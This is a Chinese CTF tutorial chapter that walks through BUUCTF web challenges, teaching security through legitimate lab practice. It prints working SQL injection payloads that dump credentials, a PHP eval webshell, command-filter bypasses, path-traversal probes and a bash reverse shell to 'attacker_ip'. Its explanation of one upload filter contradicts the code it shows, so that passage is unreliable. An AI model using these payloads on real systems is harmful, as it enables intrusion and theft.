





## 案例三：BUUCTF竞赛题目实战

### 3.1 BUUCTF平台概览

BUUCTF（https://buuoj.cn）是国内最活跃的CTF竞赛平台之一，由buu0团队维护，汇集了大量高质量的CTF竞赛真题。与TryHackMe、HackTheBox等渗透测试靶场不同，BUUCTF专注于竞赛型挑战——每道题目都有明确的flag需要提交，解题速度和准确率直接影响排名。

#### 平台核心特点

| 特点 | 说明 |
|------|------|
| 题目来源 | 国内外CTF赛事真题（Nepnep、强网杯、DASCTF、MRCTF等） |
| 题目方向 | Web、PWN、Reverse、Crypto、Misc（综合） |
| 题目难度 | 从入门到竞赛级，按解出人数自动排序 |
| 积分系统 | 解题获得XP，题目越难XP越高，排行榜实时更新 |
| 答题模式 | 在线提交flag，无需搭建环境 |
| 历史回放 | 可随时挑战已结束赛事的题目 |

#### 注册与入门

```text
1. 访问 https://buuoj.cn，点击注册
2. 填写用户名、邮箱、密码完成注册
3. 登录后进入"题库"页面，可按方向、难度、赛事筛选题目
4. 点击题目进入详情页，阅读题目描述和附件（如有）
5. 找到flag后在输入框提交，格式一般为 flag{...}
```

**新手建议：** 先从解出人数最多的题目开始（这些题目通常难度最低），建立信心后再逐步挑战更难的题目。Web方向的入门题通常集中在SQL注入、文件上传、命令注入等经典漏洞。

---

### 3.2 实战题目一：Web方向SQL注入（[极客大挑战 2019]Easy SQL）

#### 题目分析

小刚是一名CTF初学者，在BUUCTF上选择了Web方向的入门题进行练习。题目描述为"[极客大挑战 2019]Easy SQL"，这是一道经典的SQL注入题，考察选手对数据库注入基础的理解。

#### 3.2.1 SQL注入原理

SQL注入（SQL Injection）是一种将恶意SQL代码插入到应用程序输入参数中的攻击技术。当应用程序未对用户输入进行充分过滤和转义时，攻击者可以操控后端数据库执行任意SQL语句。

**注入发生的根本原因：** 应用程序将用户输入直接拼接到SQL查询语句中，而不是使用参数化查询。

```python
# 存在注入的代码示例
query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
# 当 username = "admin' OR 1=1#" 时：
# 实际执行：SELECT * FROM users WHERE username='admin' OR 1=1#' AND password='...'
# #号注释掉了后面的密码检查，OR 1=1 永远为真
```

**SQL注入的分类体系：**



#### 3.2.2 解题过程

**第一步：侦察——访问靶机**

打开题目提供的URL，看到一个简洁的登录页面，包含用户名和密码两个输入框。这提示我们注入点可能在登录表单中。

```text
页面特征：
- 登录表单（用户名 + 密码）
- 无验证码
- 无明显的WAF或过滤提示
```

**第二步：探测——确认注入点**

在用户名输入框中输入 `admin'`（单引号），观察页面反应。

```sql
-- 输入：admin'
-- 后端SQL：SELECT * FROM users WHERE username='admin'' AND password='...'
-- 问题：多出一个单引号导致语法错误

-- 页面返回SQL错误信息，说明：
-- 1. 输入被直接拼接到SQL语句中（未转义）
-- 2. 错误信息被回显到页面（可利用报错注入）
```

**关键判断：** 看到SQL报错信息是注入存在的最直接证据。如果页面没有回显错误信息，则需要使用盲注技术。

**第三步：定性——判断注入类型**

尝试字符型注入的经典验证payload：

```sql
-- 尝试1：admin' or 1=1#
-- 页面显示登录成功（可能是管理员页面或flag页面）
-- 说明：单引号闭合了原始查询，OR 1=1 使条件永真，# 注释掉后续内容

-- 尝试2：admin' or 1=1--
-- 同样成功，说明 -- 后需要空格（MySQL中 -- 后必须有空格）

-- 尝试3：admin" or 1=1#
-- 失败，说明不是双引号闭合

-- 结论：确认为字符型注入，单引号闭合
```

**注入类型判断流程：**



**第四步：探测——确定查询列数**

使用 `ORDER BY` 逐步递增来确定当前SELECT语句查询的列数：

```sql
-- 为什么需要确定列数？
-- UNION SELECT 要求两个查询的列数一致，否则会报错

admin' order by 1#    -- 正常（1列不越界）
admin' order by 2#    -- 正常（2列不越界）
admin' order by 3#    -- 正常（3列不越界）
admin' order by 4#    -- 正常（4列不越界）
admin' order by 5#    -- 报错！Unknown column '5' in 'order clause'

-- 结论：当前查询有4列
```

> **实战技巧：** 如果 `ORDER BY` 被过滤，可以尝试用 `GROUP BY` 或 `UNION SELECT ... LIMIT` 来替代判断。

**第五步：定位——找显示位**

确定列数后，用 `UNION SELECT` 找到页面上哪些列的内容会被显示：

```sql
-- 用随机数定位显示位（避免与真实数据冲突）
admin' union select 1,2,3,4#

-- 页面显示 2 和 3 的位置有内容回显
-- 说明：第2列和第3列是显示位，可以放查询语句
```

**第六步：信息收集——获取数据库信息**

```sql
-- 获取当前数据库名和MySQL版本
admin' union select 1,database(),version(),4#
-- 数据库名：geek
-- MySQL版本：5.7.26

-- 为什么版本信息重要？
-- 5.x版本支持 information_schema（信息架构数据库）
-- 不同版本的注入手法可能不同（如8.0新增了caching_sha2_password）
```

**第七步：枚举——获取表名**

```sql
-- 利用 information_schema.tables 枚举数据库中的所有表
admin' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='geek'#
-- 结果：l0ve1ysq1

-- information_schema 是MySQL的元数据库，存储所有数据库的结构信息
-- tables表：包含所有表的名称、所属数据库等信息
-- group_concat()：将多行结果合并为一行，用逗号分隔
```

**information_schema核心表结构：**

| 表名 | 作用 | 关键字段 |
|------|------|---------|
| schemata | 所有数据库信息 | schema_name |
| tables | 所有表信息 | table_schema, table_name |
| columns | 所有列信息 | table_schema, table_name, column_name |

**第八步：枚举——获取列名**

```sql
-- 获取目标表的所有列名
admin' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='l0ve1ysq1'#
-- 结果：id,username,password
```

**第九步：脱取——获取目标数据**

```sql
-- 使用CONCAT或0x3a（冒号的十六进制）拼接用户名和密码
admin' union select 1,group_concat(username,0x3a,password),3,4 from geek.l0ve1ysq1#
-- 结果包含flag：
-- flag{c1e65e5a-b8f0-4f3c-8d7e-3b4a6f9e2d1c}
```

#### 3.2.3 完整攻击流程图



---

### 3.3 实战题目二：Web方向命令注入（[GKCTF 2021]CheckIN）

#### 题目分析

这是一道考察PHP命令注入的题目，需要选手理解PHP的危险函数和命令执行机制。

#### 解题过程

**第一步：分析源码**

```php
<?php
highlight_file(__FILE__);
$ext = pathinfo($_GET['filename'], PATHINFO_EXTENSION);
if ($ext == "ph") {
    echo "don't allow you upload php file!";
} else {
    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $_GET['filename']);
    echo "upload success!";
}
?>
```

**源码审计要点：**
- `pathinfo()` 获取文件扩展名
- 只过滤了 `.ph` 开头的扩展名（即 `.php`、`.php5`、`.phtml` 被拦截）
- 但 `.pht`、`.phps`、`.phar` 未被过滤
- 文件上传后直接访问即可执行

**第二步：构造绕过**

```bash
# 方法一：使用 .pht 扩展名绕过
# 上传 webshell：<?php eval($_POST['cmd']); ?>
# 文件名：shell.pht

# 方法二：使用 .php7 扩展名（某些配置下可执行）
# 文件名：shell.php7

# 方法三：利用 .user.ini 自动包含（需要两次上传）
# 第一次上传 .user.ini：auto_prepend_file=shell.jpg
# 第二次上传 shell.jpg：<?php eval($_POST['cmd']); ?>
```

**第三步：获取flag**

```bash
# 上传webshell后，使用AntSword或curl连接
curl -X POST http://target/upload/shell.pht -d "cmd=system('cat /flag');"
# 输出：flag{xxxxx-xxxxx-xxxxx}
```

#### 命令注入核心知识

**PHP中常见的命令执行函数：**

| 函数 | 说明 | 被禁用频率 |
|------|------|-----------|
| `system()` | 执行命令并输出 | 高 |
| `exec()` | 执行命令，返回最后一行 | 高 |
| `passthru()` | 执行命令，直接输出二进制数据 | 高 |
| `shell_exec()` | 通过shell执行，返回完整输出 | 高 |
| ``反引号`` | 等价于shell_exec() | 中 |
| `popen()` | 打开进程管道 | 中 |
| `proc_open()` | 执行命令并打开输入/输出管道 | 低 |

**常用绕过技巧：**

```bash
# 1. 空格绕过
cat${IFS}/flag
cat$IFS$9/flag      # $9在bash中为空
cat</flag           # 重定向输入
{cat,/flag}         # 花括号展开

# 2. 关键字绕过
ca\t /fla?         # 反斜杠转义
cat /fla[g]        # 通配符
c''at /flag        # 空字符串连接
echo Y2F0IC9mbGFn | base64 -d | bash  # base64编码

# 3. 分号/管道过滤绕过
cat /flag || echo fail    # || 短路或
cat /flag && echo ok      # && 短路与
cat /flag | tee output    # 管道
```

---

### 3.4 实战题目三：Web方向文件包含（[SWPUCTF 2019]神奇的登录页面）

#### 解题过程

**第一步：发现登录页面**

```text
访问题目URL，发现一个登录页面，页面源码中存在注释：
<!-- /user.php?submit=flag -->
```

**第二步：利用文件包含**

```bash
# 尝试读取源码
http://target/user.php?submit=flag
# 返回：php://filter/read=convert.base64-encode/resource=flag.php

# 解码base64内容
echo "PD9waHAKJGZsYWc9J2ZsYWd7eHh4eHh4LXh4eHgteHh4eC14eHh4LXh4eHh4eHh4eHh4eH0nOw==" | base64 -d
# 输出：<?php $flag='flag{xxxxxxxx-xxxx-xxxx-xxxxxxxxxxxx}'; ?>
```

**PHP伪协议总结：**

| 协议 | 用途 | 示例 |
|------|------|------|
| `php://filter` | 读取源码（base64编码） | `php://filter/read=convert.base64-encode/resource=index.php` |
| `php://input` | 接收POST数据作为PHP代码执行 | 需配合 `include $_POST['file']` |
| `data://` | 直接执行内联代码 | `data://text/plain,<?php system('id');?>` |
| `phar://` | 读取归档中的文件 | `phar://test.zip/shell.php` |
| `zip://` | 读取ZIP中的文件 | `zip://test.zip%23shell.php` |

---

### 3.5 BUUCTF高效刷题方法论

#### 3.5.1 分方向突破策略



#### 3.5.2 解题通用流程

**Phase 1：信息收集（5分钟内）**

```bash
# 下载附件，检查文件类型
file challenge.bin
strings challenge.bin | head -20
binwalk challenge.bin

# 检查网页源码
curl -s http://target/ | grep -i "flag\|hint\|comment"

# 检查响应头
curl -sI http://target/
```

**Phase 2：漏洞识别（10分钟内）**

```bash
# SQL注入探测
admin' or 1=1#
admin" or 1=1#
admin' #

# 文件上传测试
# 尝试上传 .php, .phtml, .pht, .php5 等

# 命令注入测试
; ls
| ls
`ls`
$(ls)

# 文件包含测试
../../../../etc/passwd
php://filter/read=convert.base64-encode/resource=index.php
```

**Phase 3：利用与提取（根据难度）**

```bash
# SQL注入自动化（复杂查询时使用sqlmap）
sqlmap -u "http://target/?id=1" --dbs --batch
sqlmap -u "http://target/?id=1" -D dbname --tables --batch
sqlmap -u "http://target/?id=1" -D dbname -T tablename --dump --batch

# 文件上传使用AntSword连接
# 命令注入使用反弹shell
bash -i >& /dev/tcp/attacker_ip/port 0>&1
```

**Phase 4：Flag提交**

```bash
# flag格式通常为 flag{xxx} 或 flag{xxxx-xxxx-xxxx-xxxx}
# 注意：提交时去掉多余的空格和换行符
```

#### 3.5.3 时间管理与策略

| 题目难度 | 建议时间 | 策略 |
|---------|---------|------|
| 简单（>100人解出） | 10-20分钟 | 快速识别题型，使用模板化方法 |
| 中等（10-100人解出） | 20-60分钟 | 仔细分析，必要时使用工具辅助 |
| 困难（<10人解出） | 60分钟+ | 深入研究，查阅相关CTF writeup |

**关键原则：**

1. **先易后难：** 先做解出人数多的题目，积累XP和信心
2. **及时止损：** 一道题超过30分钟没思路，先跳过做其他题
3. **善用writeup：** 解题后阅读优秀writeup，学习不同思路
4. **分类整理：** 按题型分类记录解题方法，建立个人知识库

---

### 3.6 常见误区与纠正

#### 误区一：盲目使用工具，不理解原理

```text
❌ 错误做法：拿到SQL注入题直接 sqlmap --url "xxx" --dbs
✅ 正确做法：先手动判断注入类型、列数、显示位，理解后再考虑自动化

原因：CTF题目往往有特殊过滤或变形，sqlmap可能无法直接处理
      手动理解原理后才能灵活应对各种变形题
```

#### 误区二：忽略源码审计

```text
❌ 错误做法：只关注页面功能，不看HTML源码和JS代码
✅ 正确做法：
   1. 查看页面源码（Ctrl+U）—— 隐藏注释、disabled字段
   2. 查看JS文件 —— 可能暴露后端逻辑
   3. 查看网络请求 —— 抓包分析数据流向
```

#### 误区三：flag格式不规范

```text
❌ 错误做法：提交时包含多余空格、换行、引号
✅ 正确做法：精确复制flag格式，去除首尾空白字符
   flag{xxx}  ✓
  "flag{xxx}" ✗ （多了引号）
  flag{xxx}\n ✗ （多了换行）
```

#### 误区四：不做笔记

```text
❌ 错误做法：解完题就忘，下次遇到同类题还是要重新摸索
✅ 正确做法：
   1. 记录每道题的关键思路和突破点
   2. 整理payload模板
   3. 标注遇到的坑和绕过方法
   4. 定期回顾和更新知识库
```

#### 误区五：只做Web方向

```text
❌ 错误做法：只刷Web题，忽略其他方向
✅ 正确做法：至少了解各方向的基础知识
   - Misc（流量分析、隐写）通常是送分题，容易得分
   - Crypto的基础题（古典密码、简单编码）不需数学背景
   - PWN和Reverse入门题可以通过模板快速上手
```

---

### 3.7 进阶：CTF竞赛思维培养

#### 3.7.1 从解题到出题思维

高水平的CTF选手不仅会解题，还能理解出题人的思路。当你拿到一道题时，思考：

1. **这道题考察什么知识点？** （漏洞类型、编程语言、工具使用）
2. **出题人设置了哪些障碍？** （过滤、变形、多步骤嵌套）
3. **最直接的解法是什么？** （出题人预期的路径）
4. **有没有非预期解法？** （可能获得额外奖励）

#### 3.7.2 知识体系构建



#### 3.7.3 持续学习路径

| 阶段 | 目标 | 方法 |
|------|------|------|
| 入门（0-3个月） | 能独立解出简单题 | 每天1-2题，阅读writeup |
| 进阶（3-6个月） | 能解出中等难度题 | 参加线上赛事，组队协作 |
| 高级（6-12个月） | 能解出困难题，有稳定排名 | 深入研究1-2个方向，写自己的writeup |
| 专家（12个月+） | 能出题、审题、带队参赛 | 参与赛事组织，安全研究 |

---

### 3.8 实用工具清单

#### Web方向必备工具

| 工具 | 用途 | 获取方式 |
|------|------|---------|
| Burp Suite | 抓包、重放、扫描 | https://portswigger.net/burp |
| sqlmap | SQL注入自动化 | https://sqlmap.org |
| AntSword/冰蝎/哥斯拉 | Webshell管理 | GitHub开源 |
| dirsearch | 目录扫描 | GitHub开源 |
| ffuf | Fuzzing工具 | GitHub开源 |
| curl/wget | 命令行请求 | 系统自带 |

#### PWN方向必备工具

| 工具 | 用途 |
|------|------|
| GDB + pwndbg/peda | 调试 |
| pwntools | exploit编写框架 |
| ROPgadget | ROP链构造 |
| checksec | 检查二进制保护 |

#### Misc方向必备工具

| 工具 | 用途 |
|------|------|
| binwalk | 文件分离 |
| Stegsolve | 图片隐写分析 |
| Wireshark | 流量分析 |
| 010 Editor | 十六进制编辑 |
| Autopsy | 数字取证 |

---

### 3.9 本节小结

BUUCTF是国内最优质的CTF练习平台之一，覆盖Web、PWN、Reverse、Crypto、Misc五大方向。通过本节三个实战案例的学习，我们可以总结出以下关键要点：

**核心技能点：**

| 技能 | 对应案例 | 难度 |
|------|---------|------|
| SQL注入（联合查询） | 案例一 Easy SQL | ★★☆☆☆ |
| 命令注入与文件上传绕过 | 案例二 CheckIN | ★★★☆☆ |
| 文件包含与PHP伪协议 | 案例三 神奇的登录页面 | ★★★☆☆ |

**刷题方法论：**

1. **侦察优先：** 每道题先花2-5分钟做信息收集，不要急于动手
2. **理解原理：** 手动验证每一步，理解背后的原理，而非死记payload
3. **分类整理：** 建立自己的CTF知识库，按题型整理解题方法
4. **持续参与：** 定期参加线上CTF赛事，在实战中检验和提升能力

> **给读者的建议：** CTF是一个需要持续练习和积累的领域。不要因为一道题解不出来而沮丧，也不要因为解出一道题而骄傲。每一次解题都是一次学习机会，关键是保持好奇心和学习热情。推荐从BUUCTF的Web方向入门题开始，逐步扩展到其他方向，最终形成自己的专长领域。
